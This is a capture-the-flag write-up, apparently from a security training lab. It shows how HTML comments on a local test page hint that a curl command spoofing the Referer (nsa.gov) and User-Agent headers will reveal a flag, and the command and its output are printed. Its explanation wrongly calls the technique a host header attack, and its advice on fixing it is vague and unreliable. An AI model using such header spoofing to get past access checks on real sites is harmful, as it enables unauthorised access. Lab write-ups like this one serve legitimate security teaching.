 # Spoof(curl)

If we click on `Born2Sec` at the bottom of the page we get to <http://192.168.31.135/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f>

In the source code on this page we can find the following comments (some are more relevant than others):
```
<!--
Voila un peu de lecture :

Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum.
-->

<!-- 
Fun right ?
source: loem.
Good bye  !!!!
-->

<!--
You must come from : "https://www.nsa.gov/".
-->

<!--
Where does it come from?
Contrary to popular belief, Lorem Ipsum is not simply random text. It has roots in a piece of classical Latin literature from 45 BC, making it over 2000 years old. Richard McClintock, a Latin professor at Hampden-Sydney College in Virginia, looked up one of the more obscure Latin words, consectetur, from a Lorem Ipsum passage, and going through the cites of the word in classical literature, discovered the undoubtable source. Lorem Ipsum comes from sections 1.10.32 and 1.10.33 of "de Finibus Bonorum et Malorum" (The Extremes of Good and Evil) by Cicero, written in 45 BC. This book is a treatise on the theory of ethics, very popular during the Renaissance. The first line of Lorem Ipsum, "Lorem ipsum dolor sit amet..", comes from a line in section 1.10.32.

The standard chunk of Lorem Ipsum used since the 1500s is reproduced below for those interested. Sections 1.10.32 and 1.10.33 from "de Finibus Bonorum et Malorum" by Cicero are also reproduced in their exact original form, accompanied by English versions from the 1914 translation by H. Rackham.
-->

<!--
Let's use this browser : "ft_bornToSec". It will help you a lot.
-->
```

So we have to change our header to make it look like we are coming from <https://www.nsa.gov/> and using custom browser `ft_bornToSec`.

With `curl` we can do exactly that using flags -A (Specify the User-Agent) and -e (Sends the "Referer Page") information to the HTTP server:
```
daniseed@DESKTOP:~/darkly$ curl -e https://www.nsa.gov/ -A "ft_bornToSec" "http://192.168.31.135/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f"  | grep flag
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  6041    0  6041    0     0   737k      0 --:--:-- --:--:-- --:--:--  737k
<center><h2 style="margin-top:50px;"> The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
```

We have our flag

## Explanation

Attack type: [Host Header AttacK](https://portswigger.net/web-security/host-header)

## How to fix it

This vulnerability is fixed on new webservers but it is better ro be careful with header attributes on backend. You should never execute something with their contents
